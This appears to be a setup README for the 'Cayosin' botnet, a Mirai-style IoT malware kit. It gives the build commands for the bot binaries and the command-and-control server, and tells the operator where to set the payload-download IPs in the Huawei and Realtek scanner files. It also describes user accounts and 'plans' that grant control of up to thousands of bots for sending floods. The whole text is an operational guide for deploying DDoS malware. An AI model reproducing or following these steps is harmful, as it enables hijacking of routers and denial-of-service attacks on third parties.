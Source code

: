 tested and working on centos 6, 6.9 and 7.7

yum update -y; yum install wget python gcc nano screen httpd php -y; service httpd start; ulimit -n 999999

nano /usr/include/bits/typesizes.h

if '#define __FD_SETSIZE' is set to 1024, change it to 99999, otherwise CTRL + X to quit

change ips in:
- /bot/main.c
- /bot/huawei_scanner.c search for 'wget'
- /bot/realtek... .c search for 'wget'
- /CayosinCNC.c look for iplookup and change the ip there

gcc bot/*.c -o bp -pthread; python Cayosin.py fff 179.43.154.140  cayosin; rm -rf bot; mv iplookup.php /var/www/html

gcc -o cnc CayosinCNC.c -pthread; rm -rf CayosinCNC.c; rm -rf Cayosin.py; rm -rf cross-compiler-*

*You have the ability to make each account admin/superadmin/common.
"admin" Gives the ability to add/kick users and force unmute all clients. 
"superadmin" Gives all regular admin abilities, as well as IP Ban/Unban.
"common" Only allows the sending of floods, use of Tools and Server Commands.

*You must also select their bot plan.
"noob" gives control over 0 bots
"plan1" gives control over 100 bots
"plan2" gives control over 1000 bots
"plan3" gives control over 5000 bots
"all" gives them control over all bots

And their Plan Expiry Date (Format: 00/00/0000) (day/month/year)

nano logins.txt

YOUR_USERNAME YOUR_PASSWORD superadmin all 30/12/9999

screen ./cnc 420 850

hold down CTRL, then hold down A and then press D

CNC port = 65525, protocol = RAW

cmd to add a user:

adduser spotuser spotpass superadmin all 13/04/2022

